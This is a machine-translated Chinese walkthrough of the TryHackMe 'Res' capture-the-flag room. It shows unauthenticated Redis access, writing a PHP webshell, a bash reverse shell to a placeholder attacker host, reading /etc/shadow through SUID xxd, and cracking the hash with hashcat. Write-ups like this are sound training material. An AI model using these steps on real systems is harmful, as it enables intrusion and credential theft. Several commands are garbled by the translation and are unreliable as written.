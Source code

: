 # THM: Res

> 原文：<https://blog.devgenius.io/thm-res-24819bd22dc7?source=collection_archive---------11----------------------->

![](img/ad28a812eab404a97062a4f4a46f25c8.png)![](img/893c4fcc528310223521e291468c7667.png)

[**https://tryhackme.com/room/res**](https://tryhackme.com/room/res)

> **在这个半指导性的挑战中，用内存中的数据结构入侵一个易受攻击的数据库服务器！**

## **[Res 是 TryHackMe 首发系列](https://tryhackme.com/hacktivities?tab=practice)的一部分**

# **任务 1 预定开始**

**首先，在启动机器之前，如果您还没有安装 redis-tools，请在自己的机器上安装它。**

> ****sudo apt-get install redis-tools****

**启动机器，请注意加载可能需要一段时间。一旦完成，继续进行 ***NMAP*** 扫描。**

> ****nmap -sC -sV -p- MachineIP****

**![](img/57037b8893808b459676ecaebba1fc8a.png)**

**现在下一步是什么？**

> **给出的提示:redis-cli**

**我研究了一下，看看上面的命令可以运行哪些选项。**

**![](img/7529f88a3963278c2dfc664f1b36bb2e.png)**

**关于黑客 ***Redis，我偶然发现了 [*HackTrick 的网站*](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) 。*** 原来平时不需要使用凭证就可以访问服务器，下面我就是这么做的。**

> **redis-cli -h MachineIP**

**![](img/d709aa788baf67af160eb79f2074a3f3.png)**

**我忘记截屏这在我以前的尝试，因此 IP 的变化。**

**我们可以看到用户名，也许我们以后可以利用它。看着 HackTricks 网站，我看到我们可以通过 PHP 得到一个 webshell。**

**![](img/629f7a31c1de2b3c3c0effb46ed26c5f.png)**

**既然机器有 ***端口 80*** 运行 http，那就用 **/var/www/html** 试试吧。**

**![](img/16b78429fc82eec703dcad953e2f0b69.png)**

**看到我的错别字了吗？无红利(ex-dividend)**

**一旦完成，导航到你的浏览器，键入地址，看看它是否工作。**

> ****MachineIP/redis.php****

**![](img/fa80734f5cd09d44c858090723206fad.png)**

**现在这是工作！**

**让我们试着产生一个壳**

> ****配置集 dir /var/www/html****
> 
> ****配置设置数据库文件名 shell.php****
> 
> ****设定测试<？PHP exec(\ "/bin/bash-c ' bash-I>/dev/TCP/AttackerIP/Port 0>&1 ' \ ")；？>****

**然后，在您指定的**端口**上设置一个 **NetCat 监听器**，并前往**shell.php****

> ****MachineIP/shell.php****

**![](img/c1ef9a291a5b944b4417b802b4084214.png)**

**我们进去了！**

**让我们稳定一下我们的外壳！**

> ****python-c ' import pty；pty.spawn("/bin/sh")'****

**![](img/ba702e8fe15553249bfc6e9bf2a25820.png)**

****CD** 进入 Vianka 的文件夹，抢第一面旗！**

**![](img/3114640cfa7cfe47732732cfe396c259.png)**

**我试着运行“ **sudo -l** ”，但由于我没有密码，我无法列出服务。接下来，我运行以下命令来检查 SUID**

> **find/-perm-u = s-type F2 >/dev/null**

**![](img/95b20add3f7b5230d9759633a8ed2e87.png)**

****/usr/bin/xxd****

**我跳到了 [**GTFOBins**](https://gtfobins.github.io) 上，试着看看是否有什么我可以使用的**

**![](img/866b5300294100adf3712fb9b72a11a6.png)**

**看起来有。让我们用这个得到 ***Vianka*** 的 hash。**

> ****LFILE=/etc/shadow****
> 
> ****xxd "$LFILE" | xxd -r****

**![](img/a4fff0511927b930e015c009bfcf6742.png)**

**让我们保存哈希并破解它！启动你的 **HashCat！****

> **hashcat-m 1800-a 0 hash file/usr/share/word lists/rock you . txt-o**

**![](img/4251086f8b55b9e395d0602c6eb1f2ef.png)****![](img/59c8cb6f8265cc9fba7126924986a3a3.png)**

**密码破解！让**苏**扮成**维安卡****

**![](img/fedab6d87328ef3bf14417a00651c0d1.png)**

**让我们看看使用 **sudo** 可以运行什么**

**![](img/ed6482e55647113e903e17de64f4125d.png)**

****全部！****

**既然我们能够一起跑 sudo，现在一切都很容易。**

> ****须藤素****

**![](img/a38853504980cf8f33095ecfdabf0181.png)**

**现在我们来抢**根**旗！**

**![](img/7dc7f6e69caa246155ebd4c70af5cf85.png)**

**这个房间到此为止！感谢大家阅读，希望这对你有所帮助。直到下次=)**